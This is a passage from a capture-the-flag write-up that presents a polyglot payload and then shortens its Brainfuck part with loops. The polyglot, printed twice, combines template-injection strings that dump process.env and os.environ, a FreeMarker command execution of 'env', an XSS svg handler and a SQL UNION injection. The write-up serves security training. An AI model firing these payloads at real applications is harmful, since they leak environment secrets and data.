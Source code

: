 ```html
1/*;#/"/*.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.,.>[{%if 0%}{{''.constructor.constructor("return process.env")()}}{% endif %}<div v-if=0>{{cycler.__init__.__globals__.os.environ}}</div>${"freemarker.template.utility.Execute"?new()("env")}]
EOF
env
*/--></script><svg autofocus onfocus="alert(FLAG)" contenteditable="True"/>'
UNION SELECT flag from flag; --
```

![solve1](../.github/ywh_lehack2022_solve1.png)



 **Congratulation !! Now we have to make the smallest payload possible !** 

## OPTIMIZATION !!!!!

###Â Brainfuck 

During all this Writeup Brainfuck was the latest point observed ! But here we have **MANY** savable characters !

First, the reading of the flag from the memory. At the beginning the cursor point at the first char of the flag, so the value isn't 0. And because of shifting to right the cursor at each reading of a char, at the end of the read, the cursor point a memory slot with a value set to 0 ! So we can make a while ! 

```
[.>]
```

Here, until the cursor doesn't point an empty slot memory, it's print the pointing memory and it's shift the cursor to the right .

For the seconds part of the flag, it's a similar method. At the end of stdin, `,` instruction will receive a null value so :

```
,[.,] 
```

because of the first part, the cursor point a null value, so we get the first char from stdin and we enter the loop where it's print the char and get the next stdin char until it receive a null value !

```html
1/*;#/"/*[.>],[.,][{%if 0%}{{''.constructor.constructor("return process.env")()}}{% endif %}<div v-if=0>{{cycler.__init__.__globals__.os.environ}}</div>${"freemarker.template.utility.Execute"?new()("env")}]
EOF
env
*/--></script><svg autofocus onfocus="alert(FLAG)" contenteditable="True"/>'
UNION SELECT flag from flag; --
```

